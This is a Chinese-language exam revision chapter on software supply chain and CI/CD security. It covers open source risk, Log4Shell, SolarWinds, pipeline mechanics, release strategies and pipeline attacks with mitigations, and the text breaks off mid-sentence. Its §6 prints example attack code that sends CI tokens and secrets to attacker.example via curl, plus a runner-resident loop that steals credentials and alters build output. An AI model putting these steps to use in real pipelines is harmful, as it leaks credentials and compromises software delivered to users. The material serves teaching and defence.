# CSIT953 考试复习 · 第 11 章 软件供应链安全

> 🎯 **考纲** — *Software Supply Chain Security — Risks from third-party components in CI/CD pipelines.*
>
> 可能的题型：单选题考 CI 和 CD 各做什么、三种发布策略、`pull_request_target` 工作流的风险、短期 runner 和 OIDC 短期凭据防什么、typosquatting、传递依赖、SolarWinds 和 XZ Utils 攻破的是哪一环、从提交里删掉密钥为什么不够；填空题考术语（continuous integration、continuous deployment、runner、staging、canary release、transitive dependency、typosquatting、provenance、reproducible build、secret scanning）；简答题考 CI/CD 为什么是安全边界、第三方 action 或依赖被攻破会怎样、怎样确认用户下载的产物就是可信构建的产物；问答题可能给出一条流水线或一起供应链事件，要求找出风险、给出缓解措施。

> 📚 **来源** — slides：W9 S5–S8、S10–S32、S61–S81，S34–S51 和 S58–S59 作补充（S52–S57 已在第 3 章讲过）；W10 S2、S34、S50–S53，只取结论。录音：W9 录音（整份，没有串周）；W10 录音的开头和结尾。本章引用：哈希校验与签名（第 1 章 §3.1），撞库与 passkey（第 3 章 §13.3–§13.4），TLS 客户端的检查（第 4 章 §5），泄露的 API 凭据与工作负载身份（第 9 章 §3.2），容器的特权配置（第 12 章 §8）。

现代软件很少从零写起。大部分代码来自开源组件，构建、测试和发布交给 CI/CD 流水线自动完成。每装一个别人写的包，每跑一个别人写的构建步骤，都是在信任别人。考纲问的正是这些第三方组件在 CI/CD 流水线里带来的风险。

§1–§3 讲开源生态、复用带来的风险和供应链攻击；§4–§7 讲 CI/CD 怎样工作、为什么是安全边界、流水线的四种攻击和产物的完整性；§8 讲依赖和构建系统的几种攻击途径；§9 讲怎样发现和修补依赖里的漏洞；§10 补充部署配置和秘密管理；§11 给出答题步骤和一份范答。

## 1. 开源软件是现代软件的基础 (W9 S5–S8)

**开源软件**（open source software, OSS）的源代码公开，任何人都可以按开源许可证使用、研究、修改和再分发。它还意味着开放协作（任何人都能通过 issue、pull request 和补丁参与）、代码复用，以及由个人、社区、基金会和公司共同维护。GitHub、GitLab 和 Bitbucket 是主要的托管平台。

据 2026 年的 Black Duck OSSRA 报告，被审计的商业代码库里 98% 含有开源组件。几个关键项目被无数应用复用：

| 项目 | 领域 | 用在哪里 |
|---|---|---|
| Linux | 操作系统 | Android、云、嵌入式设备 |
| OpenSSL | 密码学 | HTTPS、VPN、SSH |
| SQLite | 数据库 | Android、iOS、浏览器 |
| zlib | 压缩 | 操作系统、数据库 |
| Clang、LLVM | 编译器 | C、C++、Objective-C；Rust、Swift 也用 LLVM |

漏洞同样普遍：87% 的被审计代码库含有已知的开源漏洞，其中 78% 有高危漏洞，44% 有严重（critical）漏洞。可开源软件没法简单地换成闭源软件。Linux 由 Linus Torvalds 在 1991 年开始编写，30 多年后成了 AWS、Google Cloud、Azure、Android、Docker 和 Kubernetes 的基础，Intel、AMD、NVIDIA、Google 等公司都往同一份代码里贡献。这样规模的项目，没有哪家公司能独自长期维护。

图 1 是开源生态的分层。开发者和组织在 GitHub、GitLab 上协作，产出开源项目；项目经过 CI/CD 自动构建和测试，发布到 npm、PyPI、Maven、Cargo 这样的包仓库；云服务、手机应用和企业系统再从仓库下载使用。信任沿着箭头一层层往下传，哪一层出了问题，下游都会受影响。



> ✍️ **English answer** — Open source software (OSS) is software whose source code is publicly available and can be used, studied, modified and redistributed under an open-source license; it also means open collaboration, code reuse and community-driven maintenance. 98% of audited commercial codebases contain OSS components, and critical projects such as Linux, OpenSSL, SQLite and zlib are embedded in countless applications. At the same time, 87% of audited codebases contain known open-source vulnerabilities. OSS cannot simply be replaced by closed-source software, because no single company could sustainably maintain a project as large as Linux.

## 2. 复用代码，也复用了风险 (W9 S61–S62, S66–S68)

现代软件大多是拼装出来的。用 TensorFlow 搭一个小神经网络只要十来行代码，自己从头写可能要几年。按课件引用的数据，平均每个应用含 911 个开源组件，扫描到的代码有 70% 来自开源，64% 的开源组件是传递依赖。

**传递依赖**（transitive dependency）是依赖的依赖。你的代码只写了 `import tensorflow`，TensorFlow 又依赖别的库，那些库再依赖系统组件。你实际信任的代码，远比你亲手挑的那几个包多。

复用有两种方式：

- 直接复用（direct reuse）：原样使用现成的包，不做修改。
- 定制复用（customized reuse）：fork 或复制别人的代码，例如 Stack Overflow 上的回答或 AI 生成的代码，改一改再放进项目。改动可能引入新的漏洞，上游修好的漏洞也不会自动同步过来（§9）。

不论哪种方式，复用的同时也继承了对方的 bug、漏洞、假设和维护负担，应用的攻击面随之变大（图 2）。所以选依赖之前要先问：**我们依赖了哪些外部代码，又从中继承了哪些风险**？



Log4Shell 是继承风险的典型。Log4j 是广泛使用的开源 Java 日志库，嵌在成千上万的 Java 应用和企业系统里。2021 年 12 月，它被发现有一个严重的远程代码执行（remote code execution, RCE）漏洞，编号 CVE-2021-44228。数以百万计的应用直接或间接依赖 Log4j，都可能受影响。成千上万的应用要紧急打补丁、重新构建、重新部署；有些机构在缓解措施到位之前，暂时关停或限制了面向互联网的服务。

> ✍️ **English answer** — Modern software is assembled from reused libraries, packages, snippets and transitive dependencies: an average application contains 911 OSS components, 70% of scanned code originates from open source, and 64% of OSS components are transitive dependencies, i.e. dependencies of dependencies that the developer never chose directly. Whether reuse is direct (a package used as-is) or customized (code forked or copied and then adapted), the application inherits the component's bugs, vulnerabilities, assumptions and maintenance burden, which enlarges its attack surface. Log4Shell (CVE-2021-44228, December 2021) shows the impact: a critical remote code execution flaw in the Log4j logging library potentially affected millions of applications that depended on it directly or indirectly, forcing urgent patching, rebuilding and redeployment.

## 3. 软件供应链与供应链攻击 (W9 S63–S65, S69–S70)

**软件供应链**（software supply chain）是软件开发生命周期里涉及的全部人员、软件组件、工具、基础设施和流程。例如：

- 开源库和其他依赖组件；
- 开发工具和平台：IDE、构建系统、GitHub/GitLab、CI/CD；
- 基础系统：操作系统、包管理器、编译器；
- 产物仓库和包仓库：npm、PyPI、Maven Central、Docker Hub。

所以 CI/CD 流水线本身就是供应链的一环，开发者用的 IDE 也是。

包的复用让依赖关系高度交织。PyPI 上约有 85 万个包，npm 上有 370 万个；npm 的 lodash 有超过 19.7 万个包直接依赖它，每周下载超过 1.35 亿次。复用越广，攻击面越大。

**软件供应链攻击**（software supply chain attack）攻破供应链里的一个或几个组件，借此间接攻击下游的软件或它的用户。攻击者不必逐个攻击下游，攻破上游一处，下游就都受影响。

SolarWinds（2020 年）就是这样一次攻击（图 3）。攻击者攻破了 SolarWinds 的构建环境，在构建时把恶意代码注入 Orion 软件的更新；更新照常经过数字签名，从官方更新服务器发布；政府、企业等客户通过可信的更新渠道装上了后门。签名只能证明更新出自 SolarWinds 的构建流程，构建流程本身被攻破时，签名保护不了用户。



向依赖树注入恶意代码的途径可以整理成一棵攻击树（attack tree）。课件引用的 Backstabber's Knife Collection 综述把它分成两大类：新建一个恶意包，要骗用户自己装上；感染一个已有的包，借用它积累的信任，用户正常升级就会中招。原图在这里字太小，下面按原结构重写，箭头后是本章讲到的例子：

```text
Injection of malicious code (into dependency tree)
├── Create new package
│   ├── Trojan horse
│   ├── Typosquatting ............ ← sklearn, huggingface-cli (§8.1)
│   └── Use after free ........... (§8.1)
└── Infect existing package
    ├── Inject into source
    │   ├── Pull request (as contributor)
    │   └── Commit (as maintainer)
    │       ├── Weak/compromised credentials or API tokens
    │       └── Social engineering to become maintainer
    │                              ← event-stream, XZ Utils (§8.2)
    ├── Inject during the build
    │   └── Compromise build system ← SolarWinds, Codecov (§8.3)
    │       ├── Manipulate package download
    │       └── Run malicious build (on shared systems)
    └── Inject into repository system
        ├── Weak/compromised credentials or API tokens
        ├── Exploit vulnerabilities
        └── Deploy in alternative repository/mirror
```

> ✍️ **English answer** — The software supply chain is the collection of people, software components, tools, infrastructure and processes involved throughout the software development lifecycle: open-source libraries and other dependencies, development tools and platforms (IDEs, build systems, GitHub/GitLab, CI/CD), the base system (operating system, package manager, compiler), and artifact repositories and package registries such as npm, PyPI, Maven Central and Docker Hub. A software supply chain attack compromises one or more of these components in order to indirectly compromise downstream software or its users; because packages are reused so widely, one upstream compromise reaches every downstream user. In the SolarWinds attack (2020), attackers compromised the build environment and inserted malicious code into an official, digitally signed Orion update, so customers installed the backdoor through the trusted update channel.

## 4. CI/CD 怎样工作 (W9 S10–S16, S18–S22)

### 4.1 CI 与 CD

- **持续集成**（continuous integration, CI）：开发者频繁地把改动合并进共享仓库，每次改动都自动构建、自动测试，尽早发现问题。
- **持续部署**（continuous deployment, CD）：代码通过 CI 之后，自动准备发布，或直接部署到生产环境。

好处是交付更快、测试自动化、部署一致、缺陷发现得早、反馈快。GitHub 上有超过 3.95 亿个公开仓库，服务 1.8 亿多开发者；开发者通过 pull request、代码评审和 issue 协作，平台本身就集成了用于测试和安全分析的 CI/CD。

一次改动走过流水线的过程（图 4）：

1. 开发者提交代码，或者发起 pull request。
2. 仓库（GitHub、GitLab）自动触发 CI 工作流（workflow）。
3. CI 在一台 **runner** 上安装依赖、构建项目，运行单元测试和集成测试。runner 是平台为作业准备的执行环境，比如一台全新的 Linux 或 Windows 机器。
4. 全部检查通过，生成可部署的产物（artifact）。
5. CD 经过代码评审，把产物先部署到预发布环境，再部署到生产环境。
6. 上线后持续监控，反馈指导下一轮开发。



CI 把合并代码从容易出错的手工步骤，变成自动的质量和安全检查点：新功能能不能用，原有的测试还过不过，有没有明显的安全问题（比如源代码里有没有密钥），依赖能不能正确安装，软件能不能在目标环境里启动。问题在合并之前就被发现，测试可以重复，人工评审的负担也减轻了。CD 把发布变成可控、可重复、可审计的过程：打包产物、部署、套用各环境的配置、部署后跑冒烟测试（smoke test），失败就回滚，并留下发布的审计日志。

CI 通过，只说明代码在测试 runner 里能跑。**预发布环境**（staging）是生产的彩排：用接近生产的配置、数据库连接和网络规则，检验同一个产物能不能真正运行。冒烟测试是部署后先试最基本的功能，例如能不能打开首页、能不能把商品加进购物车。

### 4.2 一份工作流文件

GitHub Actions 用 YAML 文件描述流水线：

```yaml
on:
  push:
    branches: [main]            # 推送到 main 分支时触发
jobs:
  pipeline:
    runs-on: ubuntu-latest      # 启动一台全新的 Linux runner
    steps:
      - uses: actions/checkout@v4   # 复用第三方 action：把仓库代码下载到 runner
      - name: Install dependencies
        run: npm install            # 在 runner 上执行 shell 命令：安装第三方依赖
      - name: Run tests
        run: npm test
      - name: Code analysis
        run: ./analyze.sh
```

步骤分两种：`uses:` 复用别人写好的 action，`run:` 在 runner 上直接执行命令。两种步骤都在流水线里运行，都能用到流水线拿到的权限。考纲说的"CI/CD 流水线里的第三方组件"，指的就是第三方 action、`npm install` 装下来的依赖、构建用的 Docker 镜像这类东西。

### 4.3 发布策略

CI 产出经过验证的产物之后，CD 还要决定新版本怎样到达用户。最简单的做法是停掉 v1、部署 v2、再启动 v2，可 v2 一旦出问题，所有用户同时受影响。发布策略控制新版本在什么时候、在哪里、对多少用户生效，以此降低发布风险（图 5）。

```svg 图 5 · 三种发布策略：滚动部署逐台替换，蓝绿部署整体切换流量，金丝雀发布先给一小部分流量（合并重画 W9 S19–S22）
<svg viewBox="0 0 640 246">
  <defs>
    <marker id="g" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="7" markerHeight="7" orient="auto"><path d="M0,0 L10,5 L0,10 z" class="solid-good"/></marker>
    <marker id="m" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="7" markerHeight="7" orient="auto"><path d="M0,0 L10,5 L0,10 z" class="solid-muted"/></marker>
  </defs>
  <text x="110" y="24" text-anchor="middle">滚动部署 rolling</text>
  <text x="66" y="50" text-anchor="middle" class="muted">实例1</text>
  <text x="118" y="50" text-anchor="middle" class="muted">实例2</text>
  <text x="170" y="50" text-anchor="middle" class="muted">实例3</text>
  <text x="24" y="75" text-anchor="middle" class="muted">T1</text>
  <text x="24" y="107" text-anchor="middle" class="muted">T2</text>
  <text x="24" y="139" text-anchor="middle" class="muted">T3</text>
  <text x="24" y="171" text-anchor="middle" class="muted">T4</text>
  <rect x="44" y="58" width="44" height="24" rx="4" class="muted fill-muted" stroke-width="1.5"/>
  <text x="66" y="75" text-anchor="middle">v1</text>
  <rect x="96" y="58" width="44" height="24" rx="4" class="muted fill-muted" stroke-width="1.5"/>
  <text x="118" y="75" text-anchor="middle">v1</text>
  <rect x="148" y="58" width="44" height="24" rx="4" class="muted fill-muted" stroke-width="1.5"/>
  <text x="170" y="75" text-anchor="middle">v1</text>
  <rect x="44" y="90" width="44" height="24" rx="4" class="good fill-good" stroke-width="1.5"/>
  <text x="66" y="107" text-anchor="middle" class="good">v2</text>
  <rect x="96" y="90" width="44" height="24" rx="4" class="muted fill-muted" stroke-width="1.5"/>
  <text x="118" y="107" text-anchor="middle">v1</text>
  <rect x="148" y="90" width="44" height="24" rx="4" class="muted fill-muted" stroke-width="1.5"/>
  <text x="170" y="107" text-anchor="middle">v1</text>
  <rect x="44" y="122" width="44" height="24" rx="4" class="good fill-good" stroke-width="1.5"/>
  <text x="66" y="139" text-anchor="middle" class="good">v2</text>
  <rect x="96" y="122" width="44" height="24" rx="4" class="good fill-good" stroke-width="1.5"/>
  <text x="118" y="139" text-anchor="middle" class="good">v2</text>
  <rect x="148" y="122" width="44" height="24" rx="4" class="muted fill-muted" stroke-width="1.5"/>
  <text x="170" y="139" text-anchor="middle">v1</text>
  <rect x="44" y="154" width="44" height="24" rx="4" class="good fill-good" stroke-width="1.5"/>
  <text x="66" y="171" text-anchor="middle" class="good">v2</text>
  <rect x="96" y="154" width="44" height="24" rx="4" class="good fill-good" stroke-width="1.5"/>
  <text x="118" y="171" text-anchor="middle" class="good">v2</text>
  <rect x="148" y="154" width="44" height="24" rx="4" class="good fill-good" stroke-width="1.5"/>
  <text x="170" y="171" text-anchor="middle" class="good">v2</text>
  <text x="110" y="208" text-anchor="middle">好处：停机时间短</text>
  <text x="110" y="232" text-anchor="middle" class="warn">风险：v1、v2 暂时并存</text>
  <line x1="212" y1="12" x2="212" y2="238" class="muted dashed" stroke-width="1"/>
  <text x="320" y="24" text-anchor="middle">蓝绿部署 blue-green</text>
  <rect x="262" y="46" width="116" height="32" rx="6" class="ink" fill="none" stroke-width="1.5"/>
  <text x="320" y="67" text-anchor="middle">负载均衡器</text>
  <rect x="226" y="128" width="88" height="48" rx="6" class="muted fill-muted" stroke-width="1.5"/>
  <text x="270" y="148" text-anchor="middle">Blue：v1</text>
  <text x="270" y="168" text-anchor="middle" class="muted">旧版本待命</text>
  <rect x="326" y="128" width="88" height="48" rx="6" class="good fill-good" stroke-width="2"/>
  <text x="370" y="148" text-anchor="middle" class="good">Green：v2</text>
  <text x="370" y="168" text-anchor="middle" class="good">接收流量</text>
  <line x1="340" y1="78" x2="364" y2="124" class="good" stroke-width="2" marker-end="url(#g)"/>
  <line x1="300" y1="78" x2="276" y2="124" class="muted dashed" stroke-width="1.5" marker-end="url(#m)"/>
  <text x="320" y="208" text-anchor="middle">好处：切回 Blue 即回滚</text>
  <text x="320" y="232" text-anchor="middle" class="muted">不原地修改运行中的环境</text>
  <line x1="428" y1="12" x2="428" y2="238" class="muted dashed" stroke-width="1"/>
  <text x="534" y="24" text-anchor="middle">金丝雀发布 canary</text>
  <rect x="448" y="46" width="172" height="32" rx="6" class="muted fill-muted" stroke-width="1.5"/>
  <text x="534" y="67" text-anchor="middle">95% 流量 → v1</text>
  <rect x="448" y="90" width="78" height="32" rx="6" class="good fill-good" stroke-width="2"/>
  <text x="487" y="111" text-anchor="middle" class="good">5% → v2</text>
  <text x="534" y="148" text-anchor="middle" class="muted">先观察错误率、延迟、崩溃率</text>
  <text x="534" y="176" text-anchor="middle">5% → 20% → 50% → 100%</text>
  <text x="534" y="208" text-anchor="middle">好处：限制影响范围</text>
  <text x="534" y="232" text-anchor="middle" class="muted">全量之前就能回滚</text>
</svg>
```

| 策略 | 做法 | 怎样降低风险 |
|---|---|---|
| 滚动部署 rolling deployment | 先给一台实例换上 v2，检查健康状态，再逐台替换，发现故障就停 | 停机时间短；代价是 v1 和 v2 会暂时并存 |
| 蓝绿部署 blue-green deployment | 两套接近生产的环境：Blue 运行 v1，Green 部署好 v2 但没有流量；验证后负载均衡器把流量切到 Green | 切换流量，不原地修改正在运行的环境；回滚就是把流量切回 Blue |
| 金丝雀发布 canary release | 先把一小部分流量（如 5%）导向 v2，观察错误率、延迟、崩溃率、日志和告警，再按 5% → 20% → 50% → 100% 扩大 | 限制影响范围，能发现只在生产里出现的故障，全量之前就能回滚 |

> ✍️ **English answer** — Continuous integration (CI) means that developers frequently merge changes into a shared repository and each change is automatically built and tested on a runner to detect problems early; continuous deployment (CD) automatically prepares the validated artifact for release or deploys it to staging and production. CI turns integration into an automated quality and security checkpoint, CD makes releases controlled, repeatable and auditable, and staging rehearses production because passing CI only proves that the code works in a test runner. Deployment strategies limit release risk: rolling deployment replaces instances gradually, blue-green deployment switches traffic to a prepared environment and can switch back, and a canary release exposes the new version to a small fraction of users first.

## 5. CI/CD 是一道信任边界 (W9 S17, S23–S26)

### 5.1 为什么

流水线成为安全边界，原因有三个：

- 复杂：工具、依赖、脚本、runner 和服务很多。组件越多，攻击面越大。
- 交互多：它连接开发者、开源组件、测试、代码仓库、包仓库和各个环境。信任关系越多，暴露越多。
- 权限高：它要用到秘密、产物、基础设施和生产系统。一处被攻破，影响可能波及整个系统。

流水线在运行中能做的事情如下：

| 资源 | 能力 |
|---|---|
| 源代码仓库 | 读代码、创建提交、开启或合并 pull request |
| 包仓库 | 下载依赖、发布包 |
| 构建环境 | 运行脚本、安装工具、执行任意命令 |
| 云基础设施 | 部署服务、创建容器、修改服务器 |
| 产物存储 | 上传二进制文件、容器镜像、发布文件 |

**CI/CD 是一道对安全至关重要的信任边界**，它把代码、人员、基础设施、凭据和生产环境连在一起，不能只当成自动化工具。

### 5.2 权限从哪里来

这些权限由 CI/CD 平台在工作流运行时临时提供（图 6）。平台按工作流定义准备 runner 环境，把令牌和秘密注入进去，脚本和命令就能用它们。注入的东西包括：内置令牌（如 `GITHUB_TOKEN`）、仓库或环境级的秘密（secrets）、云凭据或短期的身份令牌、包仓库的令牌或签名密钥。



```yaml
jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Deploy
        env:
          DEPLOY_TOKEN: ${{ secrets.DEPLOY_TOKEN }}   # 文件里只有名字
          GITHUB_TOKEN: ${{ github.token }}
        run: ./deploy.sh                             # 运行时能读到真正的值
```

工作流文件里只写了秘密的名字。作业执行时，平台从秘密存储里取出真正的值，放进 runner 的环境变量，shell 命令就能读到。秘密不在仓库里，却对正在运行的作业可见。所以**控制哪些代码能在 CI 里运行，就是控制谁能拿到这些令牌**。

### 5.3 不同环境用不同的凭据

| | CI | CD | 生产 production |
|---|---|---|---|
| 用途 | 构建、测试 | 部署 | 服务用户 |
| 数据 | 测试数据 | 预发布数据 | 真实数据 |
| 秘密 | 测试令牌 | 部署令牌 | 生产秘密 |
| 权限 | 有限 | 部署权限 | 严格限制 |
| 网络 | 有限 | 能到达部署目标 | 生产网络 |
| 使用者 | 开发者 | 运维人员（operators） | 真实用户 |

普通的 CI 作业（构建、测试、扫描）只拿测试凭据，不应碰到生产秘密；生产秘密只在审批之后，交给受保护环境（protected environment）里的部署作业（图 7）。



> 👨‍🏫 **课堂强调** — CI 作业绝不能拿到 CD 作业或生产环境的秘密，各环境之间必须隔离。否则攻破一个普通的 CI 作业，就等于拿到了生产环境。

> ✍️ **English answer** — CI/CD is a security-critical trust boundary for three reasons: high complexity (many tools, dependencies, scripts, runners and services create more attack surface), many interactions (it connects developers, OSS, tests, repositories, registries and environments, so there are more trust relationships) and high privilege (pipelines access secrets, artifacts, infrastructure and production systems, so one compromise can have system-wide impact). The platform injects tokens and secrets such as GITHUB_TOKEN, repository or environment secrets, cloud credentials and signing keys into the runner only when a job executes; they are not visible in the repository but are accessible to the running job, so controlling what code runs in CI is controlling who can access the tokens. Environments should therefore be separated: an ordinary CI job uses only test credentials, and production secrets are released only to a protected deployment job after approval.

## 6. 流水线的四种攻击与缓解 (W9 S27–S30, S32)

### 6.1 执行不可信的 PR 代码

任何人都能给开源仓库提 pull request。下面的工作流由 `pull_request_target` 触发，这个事件可以带着较高的仓库信任运行；它又检出了 PR 里的代码，并执行其中的 `build.sh`：

```yaml
on: pull_request_target
steps:
  - uses: actions/checkout@v4
    with:
      ref: ${{ github.event.pull_request.head.sha }}   # 检出 PR 里的不可信代码
  - name: Build project
    run: ./build.sh                                   # 执行的是 PR 带来的 build.sh
```

攻击者在 PR 里把 `build.sh` 改成：

```bash
npm install
npm test
# 恶意载荷：收集环境变量里的令牌和密钥，发到攻击者的服务器
env | grep -i "TOKEN\|KEY\|SECRET" > /tmp/ci-secrets.txt
curl -X POST --data-binary @/tmp/ci-secrets.txt https://attacker.example/collect
```

runner 照常构建、测试，同时把秘密发了出去。危险出在工作流显式检出了 PR 的代码，又执行了其中的文件，GitHub 的文档把这种写法列为不安全。修补办法是只执行受信任分支（如 main）里的构建脚本，不执行 PR 带来的脚本。

> 📎 **拓展（超出 slides）** — 只想给 PR 跑测试时，用普通的 `pull_request` 事件。来自 fork 的 PR 触发它时，runner 拿不到仓库的秘密，`GITHUB_TOKEN` 也只有读权限。

### 6.2 runner 被攻破

假设攻击者已经控制了一台自托管（self-hosted）的 runner，以后的可信作业还会在这台机器上跑。工作流本身完全正常，可机器上常驻的恶意进程会等作业出现，然后偷环境变量里的凭据，并在打包之前改掉构建输出：

```bash
while true; do
  if [ -d "$CI_WORKSPACE/dist" ]; then
    env | grep -Ei "TOKEN|KEY|SECRET"                      # 偷凭据
    echo "/* modified */" >> "$CI_WORKSPACE/dist/app.js"   # 改构建输出
  fi
  sleep 5
done
```

CI 的输出要交给 CD 部署，改了 CI 的输出，就控制了部署出去的软件。

> 👨‍🏫 **课堂强调** — 对付被攻破的 runner，最好的办法是用短期 runner：每个作业用一台新机器，几分钟后就销毁。攻击者即使控制了它，影响也只有几分钟。

### 6.3 第三方 CI 组件被篡改

流水线依赖外部的 GitHub Actions、CI 插件、Docker 镜像和可复用的工作流。如果 `uses: some-org/build-action@v1` 引用的 action 被换成下面的内容，恶意代码就作为流水线的一部分运行，手里拿着流水线的令牌：

```bash
echo "Stealing token..."
curl -X POST https://attacker.example -d "$GITHUB_TOKEN"
```

> 📎 **拓展（超出 slides）** — `@v1` 这样的标签，action 的作者（或者盗用了作者账户的人）随时可以改指到新代码。常见做法是把第三方 action 固定到完整的提交哈希（commit SHA），升级时先审查新代码，再改哈希。

### 6.4 构建产物被替换

源代码没问题，发布的产物照样可能在用户下载之前被换掉：构建得到正常的 `build/app`，插在上传之前的一个恶意步骤执行 `cp malware build/app`，CI 上传的就成了恶意软件，用户下载到的也是它。产物完整性要回答的问题是：发布的文件，是不是可信构建产出的那个文件？§7 专门讲。

### 6.5 缓解：每一段都减少信任



| 风险 | 缓解措施 | 为什么有效 |
|---|---|---|
| 仓库被攻破 | 受保护分支（protected branches）、强制评审、签名提交 | 没有获得信任的人改不了会被构建和发布的分支 |
| runner 不可信 | 短期 runner、沙箱化构建、不共享工作区 | 攻击者留不下常驻进程，作业之间互不影响 |
| CI 秘密泄露 | 最小权限的令牌、OIDC 短期凭据、秘密扫描 | 偷到的凭据能做的事少，而且很快过期 |
| 发布产物被篡改 | 校验和与签名、来源证明、可复现构建 | 用户能验证产物没被换过（§7） |

OIDC 短期凭据就是第 9 章 §3.2 的工作负载身份用在流水线上：流水线不保存长期的云密钥，运行时用平台签发的身份令牌，换一个很快过期的凭据。

**CI/CD 加固不是某一项控制，而是在每一段都减少信任**：源代码、runner、凭据、依赖、构建输出和发布。

> ✍️ **English answer** — Four CI/CD vulnerabilities illustrate the risks. A workflow triggered by pull_request_target that checks out the pull request's code and runs its build script executes attacker-controlled commands with access to secrets; a compromised self-hosted runner can steal credentials and modify the output of future trusted builds; a compromised third-party action, plugin or Docker image runs malicious code inside the pipeline with its tokens; and a release artifact can be replaced after a clean build. Mitigations reduce trust at every stage: protected branches, mandatory review and signed commits for the repository; short-lived, sandboxed runners with no shared workspace; least-privilege 